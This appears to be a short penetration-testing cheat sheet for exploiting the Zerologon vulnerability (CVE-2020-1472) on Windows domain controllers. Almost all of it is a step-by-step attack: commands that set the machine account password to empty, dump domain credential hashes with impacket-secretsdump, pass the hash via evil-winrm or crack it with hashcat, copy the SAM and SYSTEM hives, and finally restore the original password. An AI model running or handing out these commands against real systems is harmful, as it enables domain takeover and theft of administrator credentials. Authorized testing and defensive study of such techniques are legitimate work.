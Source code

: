## CVE-2020-1472 Zerologon

#### As the name implies, if the machine is vulnerable to Zerologon, it can reset the administrator credentials to an empty string, then attempt to dump the hashes via secretsdump without having to use a password.

### Tools: Impacket-secretsdump, https://github.com/risksense/zerologon, https://github.com/SecuraBV/CVE-2020-1472

#### 1) python3 set_empty_pw.py NETBIOS_NAME DC_IP 

#### 2) If attempt was successful, then: impacket-secretsdump -just-dc -no-pass DOMAIN.LOCAL/NETBIOS_NAME\$DC_IP

#### impacket-secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'

#### 3) When you dump the domain admin hash, you can use it to Pass-the-Hash via evil-winrm or attempt to crack it offline with hashcat

#### 4) At login, copy the SAM and SYSTEM hives to your local machine, then dump them offline (Alternative to secretsdump)

#### 5) python3 reinstall_original_pw.py NETBIOS_NAME DC_IP ORIGINAL_NTLM_ADMIN_HASH (Reinstalls the original password that the admin had to prevent permanent damage on the machine)

### TIP: The LM and NTLM hashes represented in the command are actually the hashed version of empty password/string
